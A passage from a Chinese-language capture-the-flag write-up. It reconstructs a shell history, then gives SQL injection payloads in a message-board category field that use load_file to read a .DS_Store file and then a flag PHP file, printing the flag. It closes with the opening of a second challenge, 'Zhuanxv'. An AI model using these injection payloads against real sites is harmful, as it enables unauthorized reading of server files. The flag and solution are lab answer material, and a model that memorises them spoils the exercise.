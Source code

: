   分析上图中的历史命令

   - 先在/tmp目录下解压压缩包
   - 然后删除压缩包
   - 再将html目录复制到/var/www/目录下
   - 切换到/var/www/html，然后删除.DS_Store，启动apache

3. history命令说明原本/tmp/html/目录下有个.DS_Store文件，那么读取他。

   这儿由于文件太大，不能完全显示，所以我们用十六进制编码，然后找个网站解码就行了。

   ```
   category为: 123',content=(select hex(load_file('/tmp/html/.DS_Store'))),/*
   留言内容为：*/#
   ```

   ![img](https://img2020.cnblogs.com/blog/1375459/202009/1375459-20200916201433278-123613087.png)

   这里得到flag的文件名**flag_8946e1ff1ee3e40f.php**

4. 最后我们读取此文件即可得到flag。payload如下

   ```
   category为: 123',content=(select hex(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php'))),/*
   留言内容为：*/#
   ```

   最后解出16进制就可以得到了

   ```
   <?php
   	$flag="flag{0dd14aae81d94904b3492117e2a3d4df}";
   ?>
   ```





### Zhuanxv

#### 考点：

参考：

> https://www.cnblogs.com/mke2fs/p/11519039.html
>
> https://blog.csdn.net/qq_40884727/article/details/100943302
>
> https://www.pianshen.com/article/59371136104/

通过扫描发现 list目录

```
http://220.249.52.134:57170/list
```

此时需要去找一下页面的css，在里面藏了东西

![img](https://img2018.cnblogs.com/blog/1532807/201909/1532807-20190914130341257-104516146.png)
